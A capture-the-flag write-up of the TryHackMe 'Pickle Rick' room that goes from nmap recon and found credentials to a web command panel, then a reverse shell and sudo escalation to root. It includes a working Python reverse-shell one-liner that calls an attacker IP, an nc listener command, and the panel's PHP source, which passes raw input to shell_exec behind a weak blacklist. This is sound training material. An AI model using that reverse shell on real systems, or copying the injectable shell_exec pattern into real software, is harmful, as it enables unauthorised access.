 <p align="center">
<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg" width="240">
<h1>Pickle Rick</h1>
<h2>A Rick and Morty CTF. Help turn Rick back into a human!</h2>
</P>

### Recon... 

So I began with nmap scan and port 22,80 is open.
```bash 
$ sudo nmap -T4 -sC -sS 10.10.51.178 >nmap.out
```
<p align="center"><img src="./Screenshots/1.png" width="240"></p>

Lets visit the website on port 80 and Nothing intresting and after inspecting the source code there was a comment which had something intresting
```Username: R1ckRul3s```. Since its a website its worth checkcing robots.txt file, Weirdly it contains some random string ```Wubbalubbadubdub```.
Since it mentioned something about login there is a good chance of a login page of some sort on website. So lets check for login.php and there it is.
now i tired to brute force it with the username obatined before but after some time I recalled there was a weird text in robots.txt file
With that as password and we are in!

<p align="center"><img src="./Screenshots/2.png" width="240"></p>

We have a Command Panel which reveals some intresting files, But we can't read with ```cat```. So next I tried with ```grep -r .``` 
which will display contains of everything present in the directory. Looking around all I found firt ingredient
``` Sup3rS3cretPickl3Ingred.txt:mr. meeseek hair ```

<p align="center"><img src="./Screenshots/3.png" width="240"></p>

While looking further I found list of blacklisted commands.
```php
<?php
      function contains($str, array $arr)
      {
          foreach($arr as $a) {
              if (stripos($str,$a) !== false) return true;
          }
          return false;
      }
      // Cant use cat
      $cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
      if(isset($_POST["command"])) {
        if(contains($_POST["command"], $cmds)) {
          echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p><img src='assets/fail.gif'>";
        } else {
          $output = shell_exec($_POST["command"]);
          echo "</br><pre>$output</pre>";
        }
      }
    ?>
```
Then I found a base64 string which turned out to be a Rabbit Hole! **ClASSIC**
<p align="center"><img src="./Screenshots/4.png" width="240"></p>

So I went back to Command Panel and thought to get a reverse shell. So Best options were using some one-liners.

Since I tried python code to check it is present so I got a pyhton one-liner from [Pentest Monkey Resverse Shell-Cheat-Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.155.126",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Listen on our machine.
 ```bash 
 $ nc -nlvp 8000
 ```
 We have a shell, stablize it with 
 ``` python
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 ```
 And second ingredient was found 
 ```bash
www-data@ip-10-10-60-162:/home/rick$ cat second\ ingredients           
cat second\ ingredients
1 jerry tear
```
After this I checked sudo permissions and found it has sudo access.
```bash
www-data@ip-10-10-60-162:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-60-162.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-60-162.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
So sudo into root and cat out final ingredient in file.
```bash
root@ip-10-10-60-162:~# ls
ls
3rd.txt  snap
root@ip-10-10-60-162:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
```
**With that We have the root on Pickle Rick !!**